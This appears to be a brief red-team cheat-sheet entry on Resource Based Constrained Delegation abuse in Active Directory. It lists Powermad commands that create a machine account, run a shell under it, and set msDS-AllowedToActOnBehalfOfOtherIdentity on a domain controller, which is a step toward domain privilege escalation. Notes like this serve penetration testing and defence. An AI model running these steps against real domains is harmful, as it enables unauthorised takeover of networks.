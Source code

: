 
## [[Resource Based Constrained Delegation (RBCD)]]
Add a new machine account
> New-MachineAccount -MachineAccount test

Use the added account with runas /netonly
> runas /netonly /user:domain\test$ powershell

Set the `msDS-AllowedToActOnBehalfOfOtherIdentity` to the current machine
> Set-MachineAccountAttribute -MachineName dc-1 -Attribute msDS-AllowedToActOnBehalfOfOtherIdentity -Value test-securitydesciptor

```meta
requirements: 
results: 
opsec: 
oss: #ps1
source: https://github.com/Kevin-Robertson/Powermad
description: PowerShell MachineAccountQuota and DNS exploit tools
```